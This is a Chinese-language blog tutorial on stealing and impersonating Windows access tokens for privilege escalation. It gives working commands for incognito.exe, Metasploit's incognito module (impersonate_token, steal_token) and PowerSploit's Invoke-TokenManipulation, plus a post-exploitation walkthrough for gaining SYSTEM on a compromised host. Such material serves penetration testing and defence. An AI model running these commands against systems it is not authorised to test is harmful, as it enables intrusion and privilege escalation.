 **目录**

[令牌(Token)](#t0 "令牌(Token)")

[AccessToken的窃取与利用](#t1 "AccessToken的窃取与利用")

[1：程序 incognito.exe](#t2 "1：程序 incognito.exe")

[2：MSF下的incognito模块](#t3 "2：MSF下的incognito模块")

[3：Invoke-TokenManipulation.ps1脚本](#t4 "3：Invoke-TokenManipulation.ps1脚本")

[MSF实战假冒令牌提权](#t5 "MSF实战假冒令牌提权")

* * *

令牌(Token)
=========

**令牌(token)**是系统的临时秘钥，相当于账号和密码，用来决定是否允许这次请求和判断这次请求是属于哪一个用户的。它允许你在不提供密码或其他凭证的前提下，访问网络和系统资源，这些令牌将持续存在于系统中，除非系统重新启动。令牌最大的特点就是随机性，不可预测，黑客或软件无法猜测出令牌。

**假冒令牌**可以假冒一个网络中的另一个用户进行各类操作。所以当一个攻击者需要域管理员的操作权限时候，需要通过假冒域管理员的令牌进行攻击。

**令牌有很多种：**

*   访问令牌(Access Token)：表示访问控制操作主体的系统对象
    
*   会话令牌([Session](https://so.csdn.net/so/search?q=Session&spm=1001.2101.3001.7020) Token)：是交互会话中唯一的身份标识符。
    
*   密保令牌(Security Token)：又叫做认证令牌或硬件令牌，是一种计算机身份校验的物理设备，例如U盾
    

**Windows的AccessToken有两种类型**：

*   Delegation Token：授权令牌，它支持交互式会话登录(例如本地用户直接登录、远程桌面登录访问)
    
*   Impresonation Token：模拟令牌，它是非交互的会话(例如使用net use访问共享文件夹)。
    

**Access Token**(访问令牌)是用来描述进程或线程安全上下文的对象，令牌所包含的信息是与该用户账户相关的进程或线程的身份和权限信息。当用户登陆时，系统生成一个Access Token，然后以该用户身份运行的的所有进程都拥有该令牌的一个拷贝。这也就解释了A用户创建一个进程而B用户没有该进程的权限。

AccessToken的窃取与利用
-----------------

AccessToken的窃取与利用需要administrator管理员权限。

窃取AccessToken的数量：

incognito.exe程序 > InvokeTokenManipulat.ps1脚本 > MSF里的incognito模块

### 1：程序 incognito.exe

程序地址：[https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip](https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip "https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip")

AccessToken的列举(需要administrator权限)

```
incognito.exe list_tokens -u
```


![](https://img-blog.csdnimg.cn/20200113224615216.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**模拟其他用户的令牌**

如果要使用AccessToken模拟其他用户，可以使用命令

```
incognito.exe execute -c "完整的Token名" cmd.exe      
例如：模拟system权限用户      
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```


![](https://img-blog.csdnimg.cn/20200113224645697.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 2：MSF下的incognito模块

需要administrator权限

```
use incognito #加载incognito      
list_tokens -u #列出AccessToken      
impersonate_token "NT AUTHORITY\SYSTEM" #模拟system用户，getsystem命令即实现了该命令。如果要模拟其他用户，将token名改为其他用户即可      
rev2self #返回到之前的AccessToken权限
```


![](https://img-blog.csdnimg.cn/20200113224812590.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 3：Invoke-TokenManipulation.ps1脚本

这个脚本是PowerSploit下Exfiltration文件夹内的一个脚本

使用命令如下：

```
列举token      
Invoke-TokenManipulation -Enumerate      
提权至system      
Invoke-TokenManipulation -CreateProcess "cmd.exe" -Username "nt authoritysystem"      
复制进程token      
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId 500      
复制线程token      
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ThreadId 500
```


![](https://img-blog.csdnimg.cn/20200113224945888.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200113224959312.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

MSF实战假冒令牌提权
-----------

假设我们现在已经获得了目标主机的权限，但是通过 getsystem 和其他方式提权失败。

![](https://img-blog.csdnimg.cn/20200214162509493.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

此时，我们可以尝试使用假冒令牌进行提权。

```
use incognito           #进入incognito模块      
list_tokens -u          #列出令牌
```


如图，可以看到有两种类型的令牌。

*   Delegation Token：也就是授权令牌，它支持交互式登录(例如可以通过远程桌面登录访问)
*   Impresonation Token：模拟令牌，它是非交互的会话。 

令牌的数据取决于当前获取权限的高低。

![](https://img-blog.csdnimg.cn/20200214163031417.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

当前列出了3个令牌。我们就可以通过下面的命令假冒 Administrator 用户了。

```
impersonate_token WIN2008\\adminstrator     #假冒WIN2008\adminstrator  的令牌      
impersonate_token WIN2008\\test             #假冒WIN2008\test          的令牌      
impersonate_token "NT AUTHORITY\SYSTEM"     #假冒System的令牌       
从进程窃取令牌      
steal_token 1252      
返回之前的token      
rev2self
```


![](https://img-blog.csdnimg.cn/20200214163620470.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

参考文章：[渗透技巧——Token窃取与利用](http://mottoin.com/detail/1938.html "渗透技巧——Token窃取与利用")

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)